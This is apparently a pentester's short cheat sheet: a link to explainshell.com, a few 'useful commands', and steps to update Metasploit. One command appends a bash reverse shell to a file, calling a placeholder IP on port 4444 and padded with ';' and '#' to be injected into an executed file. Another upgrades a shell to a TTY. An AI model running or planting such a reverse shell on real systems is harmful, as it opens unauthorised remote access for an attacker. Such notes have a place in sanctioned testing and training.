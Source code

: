- Useful website:

https://explainshell.com/


- Uesful commands:

echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1' #" >> filename

SHELL=/bin/bash script -q /dev/null


- How to update metasploit-framework

sudo apt update

sudo apt install metasploit-framework

sudo apt install gem

sudo gem install bundler

sudo msfdb reinit

sudo msfconsole
